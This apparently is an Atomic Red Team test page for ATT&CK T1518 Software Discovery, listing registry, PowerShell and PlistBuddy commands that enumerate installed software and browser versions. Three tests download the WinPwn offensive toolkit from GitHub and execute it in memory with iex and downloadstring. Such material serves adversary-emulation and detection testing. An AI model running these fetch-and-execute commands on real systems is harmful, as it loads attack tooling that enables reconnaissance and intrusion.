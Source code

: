 ```yaml
---
tags: [T1518, atomic_test]
filename: "[[T1518 - Software Discovery]]"
---
```

# T1518 - Software Discovery

## Atomic Test #1 - Find and Display Internet Explorer Browser Version
Query the registry to determine the version of internet explorer installed on the system.
Upon execution, version information about internet explorer will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 68981660-6670-47ee-a5fa-7e74806420a4






#### Attack Commands: Run with `command_prompt`! 


```cmd
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
```






<br/>
<br/>

## Atomic Test #2 - Applications Installed
Query the registry to determine software and versions installed on the system. Upon execution a table of
software name and version information will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** c49978f6-bd6e-4221-ad2c-9e3e30cc1e3b






#### Attack Commands: Run with `powershell`! 


```powershell
Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize
```






<br/>
<br/>

## Atomic Test #3 - Find and Display Safari Browser Version
Adversaries may attempt to get a listing of non-security related software that is installed on the system. Adversaries may use the information from Software Discovery during automated discovery to shape follow-on behaviors

**Supported Platforms:** macOS


**auto_generated_guid:** 103d6533-fd2a-4d08-976a-4a598565280f






#### Attack Commands: Run with `sh`! 


```sh
/usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
```






<br/>
<br/>

## Atomic Test #4 - WinPwn - Dotnetsearch
Search for any .NET binary file in a share using the Dotnetsearch function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 7e79a1b6-519e-433c-ad55-3ff293667101






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
Dotnetsearch -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #5 - WinPwn - DotNet
Search for .NET Service-Binaries on this system via winpwn dotnet function of WinPwn.

**Supported Platforms:** Windows


**auto_generated_guid:** 10ba02d0-ab76-4f80-940d-451633f24c5b






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
dotnet -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #6 - WinPwn - powerSQL
Start PowerUpSQL Checks using powerSQL function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** 0bb64470-582a-4155-bde2-d6003a95ed34






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
powerSQL -noninteractive -consoleoutput
```






<br/>
